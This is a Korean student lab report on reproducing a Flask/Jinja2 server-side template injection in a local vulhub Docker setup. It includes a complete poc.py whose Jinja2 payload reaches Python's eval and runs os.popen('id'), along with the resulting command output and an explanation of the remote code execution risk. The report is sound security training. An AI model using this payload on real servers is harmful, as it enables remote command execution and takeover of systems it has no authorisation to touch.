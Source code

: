 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

과제에서 제공받은 깃허브 링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 이 취약점을 실습해보기 위하여 해당 깃허브 링크를 fork하여 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
### 1.2 프로젝트 clone 및 실행

다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
<br/>
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
<docker-compose up -d>명령어를 통하여 Flask 서버를 실행하였다.
![docker-compose up -d 실행결과](./1.png)
<br/>
### 1.4 브라우저에서 flask 서버 접속
브라우저에서 서버를 접속하여 결과를 확인해보았다.
![서버 접속 실행결과](./2.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인

### 1.5 출력 결과 분석
이건 서버가 내가 입력한 값(ex. {7*7} / {5*5})을 받아서 내부에서 Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 입력된 수식을 실제로 계산한 결과를 출력하여 보여주는 것을 확인하였다. 이는 서버가 사용자의 입력을 문자열로 인식하여 처리하는 것이 아닌 python연산처럼 처리하고 실행한 것을 의미한다. 
<br/>
이는 서버의 템플릿 엔진이 외부의 사용자 입력을 검증하지 않고 실행하여 발생한 것으로 위의 Flask 서버에는 SSTI 취약점이 존재한다. 이러한 단순 수식 계산에서 더 나아가 시스템 명령어를 실행할 수 있는지를 확인해보기 위하여 이어지는 부분에서 공격 코드를 작성하여 실습을 진행해보고자 한다.

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>
### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```

![vs code로 poc.py작성](./3.png)

### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.
 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)

### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 	www-data 그룹 외에도 root 그룹(0)에도 속해 있음 (→ root 권한 보유)


### 2.4 출력 결과 분석
위의 실습 실행 결과를 통하여 템플릿 인젝션을 통하여 서버에서 임의의 시스템 명령어가 실행이 가능함을 확인하였다.
공격자는 id 명령어를 통해 서버 내부의 사용자 계정 정보를 조회할 수 있었으며, 해당 Flask 서버가 uid=33(www-data) 계정으로 실행되고 있음을 확인하였다. 또한, gid=33(www-data) 그룹 소속일 뿐만 아니라, groups=33(www-data),0(root) 결과를 통해 서버가 root 그룹(0) 에도 속해 있어 root 권한을 포함하고 있음을 알 수 있었다.

이처럼 SSTI(Server Side Template Injection) 취약점은 정보유출을 넘어 서버의 권한 탈취 등의 심각한 보안 위협으로 이어질 수 있다. 따라서 Flask와 같은 서버 운영 시에는 템플릿 인젝션 취약점 여부를 반드시 점검하고, 사용자 입력값에 대한 철저한 검증을 수행함으로써 SSTI 취약점이 발생하지 않도록 해야한다.


## 3. 결론
poc.py 스크립트를 통하여 SSTI(Server Side Template Injection) 취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드<`__import__("os").popen("id").read()` 명령어를 실행하는 코드>를 삽입하였다.
따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups 정보를 알려주었다. 
이 실습을 통하여 flask 서버의 SSTI 취약점을 통하여 원격 코드 실행(RCE, Remote Code Execution)수준의 제어가 가능함을 확인할 수 있었으며 공격자는 name 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도할 수 있었다. 즉, 단순 수식 평가뿐 아니라 시스템 명령어인 id같은 명령어까지 실행할 수 있어 서버의 중요 정보인 UID, GID 정보가 노출되는 SSTI 취약점을 확인해 보았다.
이러한 취약점의 경우**원격 명령 실행(RCE)** 으로 이어질 수 있기에 심각한 보안 위협이며, 이에 대한 조치가 필요함을 느꼈다.
